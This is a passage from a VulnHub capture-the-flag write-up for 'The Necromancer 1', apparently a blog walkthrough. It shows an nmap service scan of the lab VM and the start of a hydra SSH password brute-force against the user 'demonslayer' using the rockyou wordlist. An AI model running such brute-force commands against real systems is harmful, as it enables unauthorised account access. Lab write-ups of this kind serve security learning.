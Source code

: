 ![MD5 Flag 7](/assets/vulnhub/the-necromancer-1/md5-flag7.png)

## Flag 8
It seemed that the tcp port 22, supposedly ssh, is opened. So I tried to verify if it is right with nmap:

```plaintext
root@kali:~# nmap -sS -sV 192.10.2.5

Starting Nmap 7.40 ( https://nmap.org ) at 2017-05-12 20:17 CEST
Nmap scan report for 192.10.2.5
Host is up (0.00069s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (protocol 2.0)
MAC Address: 08:00:27:0D:44:3C (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.00 seconds
```

Cool! The port 22 is opened. So I tried to crack the demonslayer user with rockyou wordlist because I noticed that I found all the passwords with this wordlist! :stuck_out_tongue_winking_eye:

```
root@kali:~# hydra -l demonslayer -P /root/wordlist/rockyou.txt -t 4 -V 192.10.2.5 ssh
Hydra v8.3 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-05-12 20:20:40
[DATA] max 4 tasks per 1 server, overall 64 tasks, 14344398 login tries (l:1/p:14344398), ~56032 tries per task
[DATA] attacking service ssh on port 22
[ATTEMPT] target 192.10.2.5 - login "demonslayer" - pass "123456" - 1 of 14344398 [child 0] (0/0)
[ATTEMPT] target 192.10.2.5 - login "demonslayer" - pass "12345" - 2 of 14344398 [child 1] (0/0)
[ATTEMPT] target 192.10.2.5 - login "demonslayer" - pass "123456789" - 3 of 14344398 [child 2] (0/0)
[ATTEMPT] target 192.10.2.5 - login "demonslayer" - pass "password" - 4 of 14344398 [child 3] (0/0)
[ATTEMPT] target 192.10.2.5 - login "demonslayer" - pass "iloveyou" - 5 of 14344398 [child 0] (0/0)
[ATTEMPT] target 192.10.2.5 - login "demonslayer" - pass "princess" - 6 of 14344398 [child 0] (0/0)
```